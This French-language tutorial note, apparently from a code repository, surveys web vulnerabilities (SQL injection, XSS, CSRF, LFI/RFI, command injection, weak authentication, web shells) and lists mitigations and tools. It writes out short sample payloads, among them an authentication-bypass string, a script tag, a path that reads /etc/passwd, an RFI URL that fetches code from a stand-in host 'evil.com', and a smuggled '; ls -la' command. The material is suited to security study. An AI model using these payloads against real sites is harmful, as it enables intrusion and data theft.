 # \< Exploitation Web pour la Cybersécurité 💻🕶️

L'exploitation web se concentre sur l'identification et l'exploitation des vulnérabilités des applications web 🌐. Cela inclut des attaques telles que l'injection SQL, XSS, les failles de sécurité liées à l'authentification 🔐, et bien plus. Cette note couvre les principales vulnérabilités et techniques d'exploitation 🚀.

---

## >ð Types de vulnérabilités Web 🔥

### =1 Injection SQL (SQLi) 💥

L'injection SQL permet d'exécuter des commandes SQL malveillantes via des champs d'entrée non sécurisés, afin de manipuler la base de données 🗃️. Elle peut mener à l'exfiltration de données, à la modification de données, voire à la suppression de tables 🧨.

**Exploitation** :  
- Utiliser des caractères spéciaux comme `'`, `"`, `;` dans les champs de recherche, login, etc.
- Exemple d'attaque :  
  `' OR 1=1 --` (pour bypasser l'authentification) 👀

**Protection** :  
- Utiliser des requêtes préparées avec des paramètres.
- Valider et échapper les entrées utilisateur 🛡️.

---

### =2 Cross-Site Scripting (XSS) 🎭

Le XSS permet à un attaquant d'injecter du code JavaScript malveillant dans une page web, qui s'exécutera dans le navigateur de la victime 💻. Cela peut permettre le vol de cookies 🍪, la redirection de l'utilisateur 🚨 ou l'exécution d'actions non autorisées 🧨.

**Exploitation** :  
- Injection de `<script>alert('XSS');</script>` dans un champ de saisie non filtré.
- Voler des cookies via `document.cookie`.

**Protection** :  
- Assurer un encodage correct des sorties 💡.
- Utiliser des Content Security Policy (CSP) ⚡.

---

### =3 Cross-Site Request Forgery (CSRF) 🧠

CSRF permet à un attaquant de faire effectuer des actions à un utilisateur authentifié sans son consentement 😶. Par exemple, un attaquant pourrait forcer un utilisateur connecté à transférer des fonds 💸 ou changer son mot de passe 🔑.

**Exploitation** :  
- Créer un formulaire invisible pointant vers une action sur un site vulnérable, et l'exécuter en utilisant un utilisateur authentifié 🎯.

**Protection** :  
- Utiliser des tokens CSRF dans les formulaires 🧟.
- Vérifier la méthode HTTP (GET, POST) des requêtes sensibles 🛡️.

---

### =4 Inclusion de fichier (LFI/RFI) 📂

Les attaques LFI (Local File Inclusion) et RFI (Remote File Inclusion) permettent à un attaquant d'inclure un fichier externe ou local dans une application web 💥🖥️. Cela peut permettre l'exécution de code malveillant ou l'accès à des informations sensibles 📉.

**Exploitation** :  
- LFI : `http://vulnerable-site.com/page.php?file=../../../../etc/passwd`
- RFI : `http://vulnerable-site.com/page.php?file=http://evil.com/malicious.php`

**Protection** :  
- Valider et nettoyer les entrées utilisateur 🧼.
- Utiliser des chemins relatifs sécurisés 🔒.

---

### =5 Command Injection 💣

L'injection de commandes permet à un attaquant d'exécuter des commandes système via des champs d'entrée non validés 🗱.

**Exploitation** :  
- Exemple : `http://vulnerable-site.com/cgi-bin/command?param=; ls -la`
- Cela permet de lister les fichiers 📂, exécuter des commandes malveillantes ⚠️, etc.

**Protection** :  
- Échapper les caractères spéciaux dans les entrées ⚔️.
- Ne jamais faire confiance aux entrées utilisateur 🕶️.

---

### =6 Failles d'authentification 🔑

L'authentification faible, l'absence de gestion des sessions et des mots de passe compromis peuvent être exploitées par un attaquant pour accéder à des zones protégées du site 🔓.

**Exploitation** :  
- Brute-forcing des mots de passe via des outils comme Hydra 🧰.
- Utilisation de cookies volés pour hijacker une session 🎭.

**Protection** :  
- Implémenter l'authentification multifactorielle (MFA) 🛡️.
- Utiliser des mots de passe forts 🔐 et un stockage sécurisé des mots de passe (hachage et salage) 🧬.

---

## =2 Outils pour l'exploitation Web 🛠️

- **Burp Suite** : Utilisé pour l'interception et la manipulation des requêtes HTTP/HTTPS 👸‍♂️.
- **SQLmap** : Outil automatisé pour détecter et exploiter les injections SQL 🛠️.
- **Nikto** : Scanner de vulnérabilités web pour détecter diverses failles de sécurité 🔍.
- **OWASP ZAP** : Un autre scanner d'applications web pour détecter les vulnérabilités de sécurité 🕵️‍♀️.

---

## =3 Techniques avancées 🏆

### =1 Web Shells 🐚

Les Web Shells permettent de prendre le contrôle d'un serveur via une interface web 👾. Après avoir trouvé une vulnérabilité permettant d'inclure des fichiers ou d'exécuter des commandes, un attaquant peut uploader un Web Shell pour contrôler le serveur 🔥.

**Exploitation** :  
- Uploader un fichier PHP malveillant pour exécuter des commandes système 🎮.

**Protection** :  
- Filtrer les types de fichiers téléchargés 🛑.
- Limiter les privilèges d'écriture sur le serveur 🧱.

---

## =4 Récupération de mots de passe 🔑

### =1 Brute Forcing 💪

Utiliser des outils comme **Hydra** ou **Burp Suite Intruder** pour tester différentes combinaisons de mots de passe 🔓.

**Protection** :  
- Mettre en place des protections contre les attaques par force brute (ex : CAPTCHA, délais de réponse, etc.) 🧠.
- Utiliser des mots de passe complexes 🔐 et une gestion appropriée des tentatives échouées ⚠️.

---

## Conclusion 🚀

L'exploitation web est un domaine clé en cybersécurité, avec un large éventail de vulnérabilités possibles 🔥. Une bonne pratique de pentest consiste à identifier ces vulnérabilités et à implémenter des protections adaptées 💡. Une fois les failles identifiées, il est essentiel d'appliquer des mesures correctives pour garantir la sécurité des applications web 🔐.

Est-ce que tout est clair pour vous ? N'hésitez pas si vous avez d'autres questions !
